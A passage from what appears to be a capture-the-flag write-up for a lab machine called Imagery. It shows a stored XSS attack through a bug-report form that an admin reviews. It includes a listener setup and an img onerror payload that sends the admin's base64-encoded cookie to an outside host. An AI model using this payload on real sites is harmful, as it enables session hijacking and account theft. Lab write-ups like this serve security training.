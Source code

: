 ### XSS
First expression thinking about is xss as when we provide report, admin gonna look that this one and highly chance we can leverage this to get the admin cookie. <br>
&rarr; Gonna try normal report and see with burpsuite.

![Imagery Website Report Bug](/assets/img/imagery-htb-season9/imagery-htb-season9_website-report-bug-3.png)

So we can see from the response that "Admin review in progress". <br>
&rarr; Let's exploit this out.

Setup our python server to capture the request.

```bash
└─$ python3 -m http.server 80                                          
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

We are inject this payload below to the report form.

```txt
<img src=x onerror="this.src='http://10.10.16.13/steal?c='+btoa(document.cookie)">
```
